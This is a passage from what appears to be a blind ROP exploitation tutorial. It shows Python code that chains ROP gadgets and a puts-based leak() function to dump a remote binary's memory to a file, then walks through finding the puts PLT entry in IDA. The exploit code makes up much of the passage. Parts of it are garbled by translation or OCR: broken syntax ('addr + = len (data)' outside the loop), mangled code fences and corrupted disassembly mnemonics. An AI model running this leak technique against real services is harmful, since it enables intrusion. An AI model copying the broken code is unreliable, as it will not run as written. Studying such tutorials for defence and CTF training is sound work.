 ```python
rdi_ret = bridge_gadget + 9
##puts_plt = get_puts_plt(length, rdi_ret, stop_gadget)

puts_plt = 0x400560
addr = 0x400000

result = ""

while addr < 0x401000:

    print hex(addr)

    data = leak(length, rdi_ret, puts_plt, addr, stop_gadget)

    if data is None:

        continue

    else:

        result += data

addr + = len (data)
with open('code', 'wb') as f:

    f.write(result)

```



Finally, we write the leaked content to a file. It should be noted that if the leak is &quot;&quot;, then we have encountered &#39;\x00&#39;, because puts is the output string, the string is terminated with &#39;\x00&#39;. Then use ida to open the binary mode, first change the base address of the program to 0x400000 in edit-&gt;segments-&gt;rebase program, and then find the offset 0x560, as follows


`` `asm
seg000: 0000000000400560 db 0FFh
seg000: 0000000000400561 pcs 25h; %
seg000: 0000000000400562 db 0B2h;
seg000: 0000000000400563 db 0Ah
seg000:0000000000400564                 db  20h

seg000: 0000000000400565 db 0
```



Then press c to convert the data here into assembly instructions as follows


`` `asm
seg000: 0000000000400560; -------------------------------------------------- -------------------------
seg000: 0000000000400560 jmp qword for cs: 601018h
seg000: 0000000000400566; -------------------------------------------------- -------------------------
seg000:0000000000400566                 push    0

seg000:000000000040056B                 jmp     loc_400550

seg000:000000000040056B ; ---------------------------------------------------------------------------

```